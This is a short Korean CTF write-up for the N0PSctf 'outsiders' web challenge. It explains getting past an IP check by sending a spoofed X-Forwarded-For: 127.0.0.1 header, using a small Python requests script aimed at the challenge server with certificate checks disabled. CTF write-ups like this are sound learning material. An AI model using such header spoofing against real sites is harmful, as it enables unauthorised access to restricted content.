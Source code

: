 ![image](https://github.com/DA2RIM/N0PSctf/assets/171825457/1bab3c00-50ef-494d-884d-2356b13a54d1)

outsider라고 하는걸 보니 외부인에게는 플래그를 보여주지 않겠다 하는거 같은데.. 그럼 바꿀껀 ip 정도라고 생각이 들어서 ip를 루프백으로 바꿔서 리퀘스트를 보냄
(최근 풀었었던 드림핵 웹해킹 문제도 X-Forwarded-For 헤더로 아이피를 변조해서 보내는 문제였어서 참고했음)
``` python
import requests
import urllib3
from bs4 import BeautifulSoup
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

headers ={
    "User-Agent" : "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36",
    "X-Forwarded-For" : '127.0.0.1'
}
response = requests.get("https://nopsctf-outsiders.chals.io/",allow_redirects=True, headers=headers, verify=False)
response.close()

print(response.text)
```

![ousider](https://github.com/DA2RIM/N0PSctf/assets/171825457/faf458fb-2248-43d1-9013-0646df7473e3)

![outsider2](https://github.com/DA2RIM/N0PSctf/assets/171825457/bb14f73e-4298-473b-8f58-d7daf56f2aa7)

